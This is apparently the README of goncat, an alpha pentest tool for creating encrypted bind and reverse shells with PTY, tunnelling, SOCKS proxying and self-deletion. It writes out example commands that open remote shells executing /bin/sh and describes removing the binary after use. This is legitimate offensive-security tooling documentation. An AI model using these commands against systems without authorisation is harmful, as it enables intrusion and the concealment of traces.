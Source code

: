 # goncat

goncat is a netcat-like tool you can use to create bind or reverse shells,
but designed to give you a more SSH-like experience.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it has automatic cross-platform PTY support for your convenience.
Third, it can be used for tunneling.
For now it supports local and remote port forwarding as well as barebones SOCKS (TCP CONNECT and UDP ASSOCIATE supported, but no authentication).
Lastly, there are a few other convenience features such as session logging
and automatic cleanup.

Disclaimer: please treat this tool as alpha. It is work an progress and may very well be turned upside down.

## Install

Clone this repository and run `make build` to build binaries for Linux, Windows and MacOS.
Downloads may be available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
As with SSH, there is also a master and a slave side of the connection.
The master specifies the parameters for a connection, and the slave operates accordingly.
But master and slave behaviour is not tied to the client and server sides of the connection.
You can turn either side into whatever you want.
There is only one binary combining all features and it works cross-platform.

A few examples to illustrate basic use, which all assume a goncat binary exists on both your own machine and a remote one:

*   Reverse shell
    *   On your machine: `goncat master listen 'tcp://*:12345' --exec /bin/sh` to create a listener on port 12345 that will instruct the other end to execute `/bin/sh`.
    *   Remote: `goncat slave connect tcp://11.22.33.44:12345` to connect the remote side as a slave, which will execute `/bin/sh`.
*   Bind shell
    *   Remote: `goncat slave listen 'tcp://*:12345'` to listen in port 12345 for connections. The listener will do whatever a connecting master asks it to.
    *   On your machine: `goncat master connect tcp://55.66.77.88:12345 --exec /bin/sh` to connect to the remote host and make it execute `/bin/sh`.

Supported protocols include `tcp` (plain TCP connection) as well as `ws` and `wss` (websocket connections).

Advanced features can be enabled with additional flags:

*   Encryption: add `--ssl` on both ends to enable TLS encryption, which applies to all connections regardless of the protocol
*   Authentication: add `--key mypassword` on both ends to ensure no unexpected clients can connect (requires `--ssl`)
*   PTY: as master, add `--pty` to get a fully interactive shell (make sure you also execute a shell with `--exec`)
*   Local TCP port forwarding: as master, add `-L 8443:google.com:443` to open a local port 8443 on the master side, any connection to it will
    be forwarded through the slave to `google.com:443`
*   Remote TCP port forwarding: as master, add `-R 8443:google.com:443` to open a local port 8443 on the slave side, any connection to it will
    be forwarded through the master to `google.com:443`
*   SOCKS TCP/UDP proxy: as master, add `-D 127.0.0.1:1080` to create a SOCKS proxy, through which you can use the slave side (now with UDP support)
*   Logging: as master, add `--log /tmp/log.txt` to log the session to a file
*   Cleanup: as slave, add `--clean` to make goncat delete itself after execution

## A few Details

Encryption and authentication is implemented with (mutual) TLS.
To save you the hassle of generating certificates, goncat does that for you.
If you only enable `--ssl` you get encryption only.
The server side generates a new certificate on each run of `goncat ... listen`.
The client will accept any certificate without validation.
If you additionally enable `--key mypassword` then your password will be used as a seed
for the RNG used for certificate generation.
Both client and server generate and validate the certificates (but ignoring host name of course).

Logging is implemented in a simple way.
We just store all bytes send over the "main channel" to a file.
Main channel refers to that you saw on the screen when using goncat,
ignoring other data such as control messages required to sync master terminal size over to the slave when enabling PTY.
However, bear in mind that the log still looks a bit strange with PTY enabled.
I may find a better way in the future.

Lastly, a few notes on the cleanup feature.
I don't like it when leftover files fly around when you are done with a machine.
It is all too easy to forget deleting them.
Thus you can tell the slave side to `--clean` up after itself.
goncat will then attempt to delete itself before it terminates.
This works well on many Linux machines, where you can just delete your own binary.
On Windows things are a bit tricky.
At the moment, goncat launches a seperate CMD-based job to delete the binary 5 seconds after termination.
